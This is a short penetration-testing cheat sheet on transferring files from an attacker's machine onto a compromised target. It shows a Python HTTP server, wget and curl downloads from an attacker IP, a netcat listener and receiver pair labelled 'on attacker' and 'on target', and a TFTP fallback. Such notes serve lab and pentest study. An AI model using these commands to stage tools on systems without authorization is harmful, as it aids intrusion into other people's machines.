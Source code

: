 This makes the entire folder where you executed the command on, available

    python -m SimpleHTTPServer 1234

wget or curl can be used on target to download the file

    wget 123.45.67.89:1234/file.txt
    curl -O http://123.45.67.89/file.txt
    
    
 Using Netcat
 
On attacker

    nc -lvp 1234 < file
    
On target

    nc 192.168.1.102 1234 > file

if wget/curl/nc are all not available, TFTP can be used

    tftp 192.168.0.101
    tftp> get myfile.txt
